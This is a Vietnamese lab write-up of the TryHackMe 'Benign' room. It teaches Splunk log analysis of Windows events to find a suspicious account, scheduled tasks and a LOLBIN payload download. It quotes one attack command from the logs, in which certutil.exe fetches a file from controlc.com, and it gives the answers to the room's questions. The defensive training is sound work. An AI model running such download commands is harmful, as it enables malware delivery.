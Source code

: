 
# LÀM QUEN VỚI SPLUNK 

## Giới thiệu
Bài viết này hướng dẫn cách trả lời các câu hỏi liên quan đến logs trong hệ thống Windows, bao gồm cách truy vấn logs, phân tích tài khoản nghi ngờ, và phát hiện tải xuống mã độc. Các câu hỏi liên quan đến việc xử lý logs trong thời gian thực và truy vấn từ hệ thống logs.
Qua đó , còn giúp các bạn có thể tìm hiểu về hệ thống SIEM Splunk.

---
Lưu ý : Bài viết được thực hiện dựa trên Room Benign trên TryHackMe !


Các bạn có thể tham khảo [tại đây](https://tryhackme.com/r/room/benign) 

---
## Câu hỏi 1: Bao nhiêu logs đã được ghi lại trong tháng 3, 2022?

Truy vấn để kiểm tra số lượng logs đã ghi lại  trong tháng 3, 2022:

```jsx
index="win_eventlogs" 
```

Hãy dùng truy vấn này để lọc logs của tháng 3 năm 2022 và đếm số lượng.


---

## Câu hỏi 2: Tài khoản giả mạo nào đã được quan sát thấy trong logs?

Dùng truy vấn để liệt kê tất cả các tài khoản đã xuất hiện trong logs:

```jsx
index="win_eventlogs" | stats count by UserName
```

Từ kết quả này, bạn có thể phân tích và tìm ra tài khoản đáng nghi.

![](/images/question2.png)
---

## Câu hỏi 3: Người dùng từ phòng nhân sự nào đã thực hiện các scheduled tasks?

Truy vấn logs liên quan đến EventID 4688, tập trung vào các scheduled tasks:

```jsx
index="win_eventlogs" EventID=4688 schtasks
```

Kết quả sẽ hiển thị danh sách người dùng đã chạy các scheduled tasks, giúp bạn xác định hành vi đáng nghi.

![](/images/question3_1.png)

Truy vấn trả về tổng hợp các kết quả , trong đó người dùng **Chris.fort** là đáng nghi nhất.

![](/images/question3_2.png)

Đúng như thế , người dùng này đã thực hiện lên lịch trình tự động

![](/images/question3_3.png)
---

## Câu hỏi 4: Người dùng nào từ phòng nhân sự đã chạy tiến trình hệ thống (LOLBIN) để tải payload từ một dịch vụ chia sẻ file?

Truy vấn logs để phát hiện việc sử dụng certutil.exe hoặc các kết nối HTTPS nhằm tải payload:

```jsx
index="win_eventlogs" certutil.exe
```

Hoặc:

```jsx
index="win_eventlogs" https
```

Thông tin chi tiết về **LOLBIN** có thể được tìm thấy [tại đây](https://socprime.com/blog/what-are-lolbins/#How_Can_LOLBins_be_Used_for_Cyber_Attacks).

![](/images/question4.png)
![](/images/question5-6-7-8-10.png)
---
Đối với các câu hỏi 5-6-7-8-10 sẽ sử dụng kết quả trên để trả lời 
## Câu hỏi 5: Để vượt qua các hệ thống bảo mật, tiến trình hệ thống nào đã được sử dụng để tải payload từ internet?

Trong trường hợp này, **certutil.exe** đã được sử dụng để tải payload:

```jsx
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe 
```

---

## Câu hỏi 6: Ngày nào binary này đã được thực thi trên máy bị lây nhiễm?

Ngày thực thi: **2022-03-04**

---

## Câu hỏi 7: Trang web bên thứ ba nào đã được truy cập để tải payload độc hại?

Trang web được truy cập: **controlc.com**

---

## Câu hỏi 8: Tên file nào đã được lưu trên máy từ máy chủ C2 trong giai đoạn hậu khai thác?

Tên file: **benign.exe**

---

## Câu hỏi 9: File tải xuống chứa nội dung độc hại có mẫu THM{..........}; mẫu này là gì?

Phân tích file và tìm ra mẫu THM (Đối với room này , thực hiện truy cập đường link để tìm flags )

![](/images/question9.png)

---

## Câu hỏi 10: Địa chỉ URL nào mà máy bị nhiễm đã kết nối tới?

Địa chỉ URL: **https://controlc.com/e4d11035**

---

### Kết luận
Qua các câu hỏi trên, chúng ta  đã nắm được cách sử dụng logs để phân tích và phát hiện các hành vi nghi vấn trong hệ thống. Các công cụ như truy vấn logs và phân tích dữ liệu là rất quan trọng trong quá trình điều tra bảo mật. Và hơn hết , chúng ta đã hiểu thêm  những kiến thức cơ bản về Splunk trong việc phân tích các logs . 

Cảm ơn mọi người đã theo dõi ! 


